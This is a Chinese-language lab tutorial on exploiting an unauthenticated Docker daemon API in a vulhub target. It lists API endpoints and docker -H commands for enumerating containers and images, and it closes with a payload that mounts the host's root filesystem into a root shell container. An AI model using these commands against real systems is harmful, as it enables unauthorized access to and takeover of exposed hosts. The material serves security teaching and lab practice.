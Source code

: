 # 3. docker daemon api 未授权访问漏洞利用 
---
## 3.1 docker 信息获取    
### 3.1.1 通过 API 获取信息
docker 官方 api 文档：[Develop with Docker Engine API | Docker Docs](https://docs.docker.com/engine/api/#api-version-matrix)  
此处仅介绍比较常用的 api：  
1. 获取系统信息：`http://192.168.88.130:2375/info`  
	可获取到：`Containers` 容器总数，`Images` 镜像总数，`OperatingSystem` 主机操作系统名称等  
	![api-info](https://image.yiscook.top/blog-image/202404171709738.png)    
	如图：容器共 2 个，镜像共 2 个  
2.  获取版本信息：`http://192.168.88.130:2375/version`  
3. 列出所有容器：`http://192.168.88.130:2375/containers/json`  
	![api-containers/json](https://image.yiscook.top/blog-image/202404171713937.png)  
4. 检查指定容器：`http://192.168.88.130:2375/containers/{id}/json`  
5. 列出指定容器内运行的进程：`http://192.168.88.130:2375/containers/{id}/top`  
	1. ![api-containers/id/top](https://image.yiscook.top/blog-image/202404171714246.png)  
6. 获取指定容器日志：`http://192.168.88.130:2375/containers/{id}/logs`  
7. 列出所有镜像：`http://192.168.88.130:2375/images/json`  
	![api-images/json](https://image.yiscook.top/blog-image/202404171717762.png)  
8. 检查指定镜像：`http://192.168.88.130:2375/images/{name}/json`  
	![api-images/name/json](https://image.yiscook.top/blog-image/202404171719226.png)  

### 3.1.2 通过 docker 命令获取信息    
此处最好有一个公网的 vps，并且部署好了 vps 环境。可以使用 `docker -H tcp://<target-ip>:<port> [docker-command]` 进行利用。  
1. 查看镜像：`docker -H tcp://192.168.88.130:2375 images`
	![-H images](https://image.yiscook.top/blog-image/202404171720720.png)  
2. 查看容器：`docker -H tcp://192.168.88.130:2375 ps -a`
	![-H ps -a](https://image.yiscook.top/blog-image/202404171722369.png)  

## 3.2 docker 主机磁盘挂载  
使用 docker 命令创建一个容器，并将主机的磁盘挂载到容器中。
1. 先执行查看镜像，我想将靶场 vulhub/docker: 18.03 的根目录挂载到 centos 的容器中。  
2. 构造 payload：
	```shell
	# docker -H tcp://<ip>:<port> run -it -v /:/mnt <IMAGE-ID> /bin/bash
	docker -H tcp://192.168.88.130:2375 run -it -v /:/mnt 5d0da3dc9764 /bin/bash
	```
	![docker payload](https://image.yiscook.top/blog-image/202404171743946.png)  
	可以看到执行挂载并且启动了容器后，当前登录用户为 `root`，容器系统为 `centos`；并且成功挂载了，路径为：`/mnt/`，查看挂载的系统为 `alpine`，也就是 vulhub/docker: 18.03，使用的系统是 Alpine linux。  

